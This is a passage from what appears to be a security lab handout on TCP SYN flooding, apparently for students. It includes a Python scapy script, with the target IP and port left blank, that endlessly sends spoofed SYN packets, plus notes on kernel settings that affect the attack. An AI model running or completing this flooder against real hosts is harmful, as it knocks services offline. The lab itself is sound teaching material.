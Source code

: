 To be able to use sysctl to change the system variables inside a container, the container needs to be
configured with the"privileged: true"entry (which is the case for our victim server). Without
this setting, if we run the above command, we will see the following error message. The container is not
given the privilege to make the change.

```
# sysctl -w net.ipv4.tcp_syncookies=1
sysctl: setting key "net.ipv4.tcp_syncookies": Read-only file system
```

### 3.1 Task 1.1: Launching the Attack Using Python

We provide a Python program calledsynflood.py, but we have intentionally left out some essential data
in the code. This code sends out spoofed TCP SYN packets, with randomly generated source IP address,
source port, and sequence number. Students should finish the code and then use it to launch the attack on
the target machine:

```
#!/bin/env python

from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip = IP(dst="*.*.*.*")
tcp = TCP(dport=**, flags=’S’)
pkt = ip/tcp

while True:
    pkt[IP].src = str(IPv4Address(getrandbits(32))) # source iP
    pkt[TCP].sport = getrandbits(16) # source port
    pkt[TCP].seq = getrandbits(32) # sequence number
    send(pkt, verbose = 0)
```

Let the attack run for at least one minute, then try to telnet into the victim machine, and see whether you
can succeed. Very likely that your attack will fail. Multiple issues can contribute to the failure of the attack.
They are listed in the following with guidelines on how to address them.

- TCP cache issue:See Note A below.
- VirtualBox issue:If you are doing the attack from one VM against another VM, instead of using our
    container setup, please see Note B below. This is not an issue if you are doing the attack using the
    container setup.
- TCP retransmission issue:After sending out the SYN+ACK packet, the victim machine will wait
    for the ACK packet. If it does not come in time, TCP will retransmit the SYN+ACK packet. How
    many times it will retransmit depends on the following kernel parameters (by default, its value is 5):
    ```
    # sysctl net.ipv4.tcp_synack_retries
    net.ipv4.tcp_synack_retries = 5
    ```
    